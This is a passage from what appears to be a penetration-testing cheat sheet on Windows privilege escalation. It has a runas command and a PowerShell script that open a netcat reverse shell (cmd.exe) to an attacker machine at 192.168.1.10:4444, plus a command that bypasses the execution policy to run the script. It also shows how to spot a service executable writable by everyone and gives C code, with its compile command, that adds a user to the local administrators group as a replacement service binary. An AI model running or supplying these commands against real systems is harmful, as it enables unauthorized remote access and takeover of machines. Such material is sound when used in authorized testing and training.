              PsExec v2.2 - Execute processes remotely
             Copyright (C) 2001-2016 Mark Russinovich
             Sysinternals - www.sysinternals.com

    *   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

             C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
             Enter the password for Test:
             Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

    *   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

             $username = '<username here>'
             $password = '<password here>'
             $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
             $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
             Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

        Next run this script using powershell.exe:

        `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`

*   Windows Service Configuration Viewer - Check for misconfigurations in services that can lead to privilege escalation. You can replace the executable with your own and have windows execute whatever code you want as the privileged user.  
    icacls scsiaccess.exe

         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

*   Compile a custom add user command in windows using C

        root@kali:~# cat useradd.c  
        #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
        int main ()  
        {  
        int i;  
        i=system ("net localgroup administrators low /add");  
        return 0;  
        }

    `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

*   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

    *   map the Domain controller SYSVOL share
